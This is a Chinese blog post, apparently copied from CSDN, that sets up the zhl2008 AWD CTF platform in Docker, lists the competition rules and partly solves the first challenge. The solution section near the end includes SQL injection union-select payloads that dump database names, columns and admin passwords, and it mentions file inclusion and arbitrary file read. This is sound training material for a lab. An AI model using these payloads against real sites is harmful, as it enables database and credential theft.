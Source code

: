 <!--yml
category: 未分类
date: 2022-04-26 14:39:12
-->

# CTF AWD靶场搭建和第一题题解_星星明亮的博客-CSDN博客_awd靶场

> 来源：[https://blog.csdn.net/weixin_46578840/article/details/120870745](https://blog.csdn.net/weixin_46578840/article/details/120870745)

首先安装docker环境

添加GPG密钥并添加更新源

```
curl -fsSL https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/debian/gpg | sudo apt-key add -
echo 'deb https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/debian/ buster stable' | sudo tee /etc/apt/sources.list.d/docker.list 
```

更新系统并安装docker

```
apt-get update
apt-get install docker-ce 
```

安装docker-compose

```
apt-get install docker-compose 
```

启动docker

```
 service docker start 
```

AWD模型安装配置

下载

```
git clone https://github.com/zhl2008/awd-platform 
```

比赛的环境介绍：

服务器全部以docker形式部署在同一台虚拟机上。

检查服务器：
服务检查服务器，用于判定选手维护的服务是否可用，如果不可用，则会扣除相应的分数。不开启任何端口。需要与flag服务器通信。

标志服务器：
选手提交flag的服务器，并存储选手的分数。开启80端口。

网络服务器：
选手连接的服务器，选手需要对其进行维护，并尝试攻击其他队伍的机器。通常开启80端口，22端口，并将端口映射到主机。

比赛逻辑拓扑：
![在这里插入图片描述](img/df7fa50e7d6f708c264d3604c105b476.png)

比赛入口服务器

比赛启动
1.根据当前队伍数量copy所有的队伍的比赛文件夹:

python batch.py web_dir team_number

```
例如：python batch.py web_server 5 
```

2.启动比赛：

python start.py ./ team_number

```
例如：python start.py ./ 5 
```

3.启动check脚本：

```
docker attach check_server
python check.py 
```

比赛参数

Flag 提交： 172.17.0.6:80/flag_file.php?token=teamx&flag=xxxx (x为你们的队伍号)
比赛规则(新）：

1.每个队伍分配到一个docker主机，给定ctf用户权限，通过制定的端口和密码进行连接；

2.每台docker主机上运行一个web服务或者其他的服务，需要选手保证其可用性，并尝试审计代码，攻击其他队伍；

3.比赛开始后，前30分钟，选手维护各自的主机，在这个阶段，所有的攻击和服务不可用不影响分数；

4.选手可以通过使用漏洞获取其他队伍的服务器的权限，读取他人服务器上的flag并提交到指定的flag服务器：

http://flag服务器IP :端口/fflag_file.php?token=队伍token&flag=获取到的flag 来获得相应的分数。

例如：flag server地址为8.8.8.8，端口为8080，队伍token为team1，flag为40ed892b93997142e46124516d0f5ac0，则请求http://8.8.8.8:8080/fflag_file.php?token=team1&flag=40ed892b93997142e46124516d0f5ac0来获得相应分数。

每次成功攻击可获得2分，被攻击者扣除2分；有效攻击两分钟一轮；

5.选手需要保证己方服务的可用性，每次服务不可用，扣除1分,服务可用，加1分；服务检测两分钟一轮；

6.选手可以从flag服务器上获取所有的攻击情况以及当前的分数：

攻击情况url地址： http://flag服务器IP :端口/result.txt

得分情况地址： http://flag服务器IP :端口/score.txt

**配置**
下载完成后进入目录

```
cd awd-platform 
```

![在这里插入图片描述](img/92e3de18b0696dc5c4eced97d0c495d8.png)
下载docker镜像

```
sudo docker pull zhl2008/web_14.04

sudo docker tag zhl2008/web_14.04 web_14.04 
```

启动服务和脚本
![在这里插入图片描述](img/e828baddaa0859b04c212f7a8502ef6c.png)

```
python batch.py web_yunnan_simple 2 
```

![在这里插入图片描述](img/fcd38b41821dd7139ee135a81030f075.png)

```
python start.py ./ 2 
```

![在这里插入图片描述](img/c12a30ff15956ebc0bd1c2925a4be5e8.png)
执行完会在当前目录下生成
![在这里插入图片描述](img/4a798c4a8101fc01868f7fc09f46a5a6.png)

端口映射规则

```
team1 ---- 8801
team3 ---- 8802
team3 ---- 8803 
```

![在这里插入图片描述](img/c3859c7cd4cd6f29b76d8de8d5ba0723.png)
SSH账号密码在awd-platform/pass.txt
![在这里插入图片描述](img/2fdac68104383d3ed06bee3258d5a6e3.png)

解题过程
1，得到ssh账号密码后登录立马改密码
2，把源代码托下来审计
![在这里插入图片描述](img/525fcaff8347a2dcf2a5b790253ad562.png)
2，文件包含读flag
![在这里插入图片描述](img/38b0b7b3c3fb898be41d05a9ae7f1713.png)![在这里插入图片描述](img/948df300a2455b4aff4dc682e304183c.png)
两处sql注入
payload

```
search.php?id=-1 union select 1,2,database() --+
search.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test"%20 --+
search.php?id=-1 union select 1,2,user_pass form admin --+ 
```

任意文件读取
源码得到get传入参数，判断文件是否存在并取得其文件大小![在这里插入图片描述](img/a2ce4ce4ad3582b753ec467fe33af013.png)![在这里插入图片描述](img/5ed26c30b1d59ce3a749acae8eb47c69.png)